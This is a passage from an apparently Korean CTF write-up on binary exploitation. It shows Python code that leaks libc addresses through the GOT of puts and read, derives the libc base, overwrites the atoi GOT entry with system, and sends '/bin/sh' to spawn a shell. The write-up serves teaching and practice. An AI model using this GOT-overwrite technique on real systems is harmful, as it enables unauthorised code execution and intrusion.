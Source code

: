 ```python
set_name(b'D')

# libc leak
print("puts: ", hex(puts))
print("read: ", hex(read))
libc_base = puts - puts_offset
print("libc_base: ", hex(libc_base))
```

`puts()` 함수로 `puts()` 함수의 GOT가 가리키는 주소를 출력하도록 하면 `puts()` 함수의 주소를 알 수 있다  
여기서 `puts()` 함수의 주소를 구할 수 있고 libc 베이스 주소까지 구할 수 있다    

이걸로 libc db에서 찾아도 되는데 여러 개가 나오기에 `read()` 함수 주소까지 읽으면 딱 하나 libc가 특정된다  
해당 libc에서 시스템 함수 오프셋을 찾아 시스템 함수를 사용할 수 있다  
<br>

---

```python
aaw(atoi_got, libc_base + system_offset)
p.sendafter(b'=> ', b'/bin/sh\x00')
```

`atoi()` 함수의 GOT를 시스템 함수로 변경하면 `buf`에 `/bin/sh`를 입력해 `system()` 함수의 인자로 설정하여 실행하면 쉘을 딸 수 있다  
<br>

---

![Image](/assets/img/250929/payload.png)

> Thanks to Sechack

<br>

---
